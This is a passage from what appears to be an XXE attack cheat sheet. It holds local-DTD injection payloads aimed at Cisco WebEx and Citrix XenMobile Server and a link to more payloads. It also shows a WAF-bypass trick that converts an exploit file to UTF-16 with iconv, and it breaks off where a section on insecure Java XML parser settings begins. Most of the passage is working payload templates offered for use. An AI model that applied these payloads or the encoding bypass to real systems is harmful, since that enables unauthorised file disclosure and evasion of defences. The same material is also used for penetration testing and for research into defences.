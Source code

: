 ### Cisco WebEx

```
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd">
<!ENTITY % url.attribute.set '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```

### Citrix XenMobile Server

```
<!ENTITY % local_dtd SYSTEM "jar:file:///opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">
<!ENTITY % Body '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```

[Other payloads using different DTDs](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md)

## WAF Bypasses

### Bypass via character encoding

XML parsers uses 4 methods to detect encoding:

- HTTP Content Type: `Content-Type: text/xml; charset=utf-8`
- Reading Byte Order Mark (BOM)
- Reading first symbols of document
  - UTF-8 (3C 3F 78 6D)
  - UTF-16BE (00 3C 00 3F)
  - UTF-16LE (3C 00 3F 00)
- XML declaration: `<?xml version="1.0" encoding="UTF-8"?>`

| Encoding | BOM      | Example                             |              |
| -------- | -------- | ----------------------------------- | ------------ |
| UTF-8    | EF BB BF | EF BB BF 3C 3F 78 6D 6C             | ...<?xml     |
| UTF-16BE | FE FF    | FE FF 00 3C 00 3F 00 78 00 6D 00 6C | ...<.?.x.m.l |
| UTF-16LE | FF FE    | FF FE 3C 00 3F 00 78 00 6D 00 6C 00 | ..<.?.x.m.l. |

**Example**: We can convert the payload to `UTF-16` using [iconv](https://man7.org/linux/man-pages/man1/iconv.1.html) to bypass some WAF:

```bash
cat utf8exploit.xml | iconv -f UTF-8 -t UTF-16BE > utf16exploit.xml
```

## XXE in Java

Insecure configuration in 10 different Java classes from three XML processing interfaces (DOM, SAX, StAX) that can lead to XXE:
